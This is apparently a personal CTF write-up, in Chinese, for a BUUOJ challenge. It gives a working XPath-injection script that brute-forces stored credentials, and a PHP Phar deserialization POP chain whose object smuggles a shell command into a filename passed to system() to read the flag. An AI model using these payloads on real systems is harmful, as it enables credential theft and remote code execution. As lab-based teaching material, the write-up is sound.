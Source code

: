 tags:: CTF/Xpath, CTF/PHP/Phar

- > 复现
- # 思路
	- 使用[xpath注入]([[CTF/XPATH]])得到账号密码，登陆
	- F12看到源代码泄漏
	- 使用[phar POP]([[CTF/PHP/Phar]])实现RCE
- # Xpath注入
	- 脚本
		- ```python
		  url = "http://f3b9594d-6bf5-47bb-a0e4-e62c761263ac.node4.buuoj.cn:81/index.php"
		  
		  # payload = "114514' or substring(name(/*),{},1)='{}' or '" # account
		  # payload = "114514' or substring(name(/accounts/*),{},1)='{}' or '" # user
		  # payload = "114514' or substring(name(/accounts/user/*[position()=1]),{},1)='{}' or '" # username
		  # payload = "114514' or substring(name(/accounts/user/*[position()=2]),{},1)='{}' or '" # password
		  payload = "114514' or substring(/accounts/user/password,{},1)='{}' or '" # 
		  
		  def submit(payload):
		      r = base_post(url, data = {
		          "username": payload,
		          "password": "123",
		          "submit": "114514"
		      })
		  
		      _ = base_get(url)
		      return r
		  
		  def get_by_payload(payload):
		  
		      known = ""
		      while True:
		          visited = set()
		          for c in itertools.chain(string.digits, string.ascii_lowercase, string.printable):
		              if c == "'" or c in visited:
		                  continue
		              visited.add(c)
		              r = submit(payload.format(str(len(known) + 1), c))
		              if "登录成功" in r.text:
		                  known += c
		                  print(known)
		                  break
		          else:
		              print("> break")
		              break
		      return known
		  
		  # first_node = get_by_payload(payload)
		  # submit("114514' or count(/accounts/user/*)=2 or '").text
		  get_by_payload(payload)
		  # 密码：15035371139
		  ```
	- 拿到[somd5](https://www.somd5.com/)破解密码md5即可
- # Phar POP
	- ```php
	  <?php
	  class FILE{
	      public $filename;
	      public $lasttime;
	      public $size;
	      public function __construct($filename){
	          if (preg_match("/\//i", $filename)){
	              // throw new Error("hacker!");
	          }
	          $num = substr_count($filename, ".");
	          if ($num != 1){
	              // throw new Error("hacker!");
	          }
	          if (!is_file($filename)){
	              // throw new Error("???");
	          }
	          $this->filename = $filename;
	          $this->size = filesize($filename);
	          $this->lasttime = filemtime($filename);
	      }
	      public function remove(){
	          unlink($this->filename);
	      }
	      public function show()
	      {
	          echo "Filename: ". $this->filename. "  Last Modified Time: ".$this->lasttime. "  Filesize: ".$this->size."<br>";
	      }
	      public function __destruct(){
	          system("ls -all ".$this->filename);
	      }
	  }
	  $o = new FILE("/; cat /adjaskdhnask_flag_is_here_dakjdnmsakjnfksd");
	  //打开phar文件
	  @unlink("phar.phar");
	  $phar = new Phar("phar.phar"); //生成时后缀名必须为phar
	  $phar->startBuffering();
	  $phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>");
	  
	  //放入对象
	  $phar->setMetadata($o);
	  
	  //添加压缩的文件（test为其中的内容）
	  $phar->addFromString("test.txt", "test");
	  $phar->stopBuffering();
	  ?>
	  ```
-